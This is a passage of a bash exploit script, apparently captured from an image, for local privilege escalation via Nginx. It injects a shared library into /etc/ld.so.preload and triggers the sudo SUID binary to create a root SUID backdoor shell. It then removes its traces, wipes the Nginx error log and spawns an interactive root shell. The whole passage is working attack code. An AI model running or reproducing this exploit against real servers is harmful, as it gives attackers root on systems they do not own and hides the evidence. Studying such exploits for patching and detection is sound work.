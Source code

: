     # /etc/ld.so.preload should be owned by www-data user at this point
    # Inject the privesc.so shared library to escalate privileges
    echo $PRIVESCLIB > /etc/ld.so.preload
    echo -e "\n[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: \n`ls -l /etc/ld.so.preload`"
    echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
    echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
    chmod 755 /etc/ld.so.preload

    # Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
    echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
    sudo 2>/dev/null >/dev/null

    # Check for the rootshell
    ls -l $BACKDOORPATH
    ls -l $BACKDOORPATH | grep rws | grep -q root
    if [ $? -eq 0 ]; then 
        echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
        echo -e "\n\033[94mThe server is (N)jinxed ! ;) Got root via Nginx!\033[0m"
    else
        echo -e "\n[!] Failed to get root"
        cleanexit 2
    fi

    rm -f $ERRORLOG
    echo > $ERRORLOG
     
    # Use the rootshell to perform cleanup that requires root privilges
    $BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
    # Reset the logging to error.log
    $BACKDOORPATH -p -c "kill -USR1 `pidof -s nginx`"

    # Execute the rootshell
    echo -e "\n[+] Spawning the rootshell $BACKDOORPATH now! \n"
    $BACKDOORPATH -p -i

    # Job done.
    cleanexit 0
